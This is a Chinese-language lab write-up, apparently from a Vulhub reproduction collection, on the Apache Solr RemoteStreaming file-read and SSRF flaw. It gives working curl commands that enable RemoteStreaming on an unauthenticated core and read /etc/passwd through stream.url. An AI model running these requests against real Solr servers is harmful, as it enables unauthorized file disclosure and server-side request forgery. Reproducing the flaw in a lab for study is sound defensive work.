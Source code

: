 # Apache Solr RemoteStreaming 文件读取与SSRF漏洞

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

参考链接：

- https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ

## 环境搭建

Vulhub执行如下命令启动solr 8.8.1：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8983`即可查看Apache Solr后台。

## 漏洞复现

首先，访问`http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json`获取数据库名：

![image-20220301133315348](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011333403.png)

发送如下数据包，修改数据库`demo`的配置，开启`RemoteStreaming`：

```
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
    $'http://your-ip:8983/solr/demo/config'
```

![image-20220301133429439](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011334580.png)

再通过`stream.url`读取任意文件：

```
curl -i -s -k 'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```

![image-20220301133519998](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011335312.png)

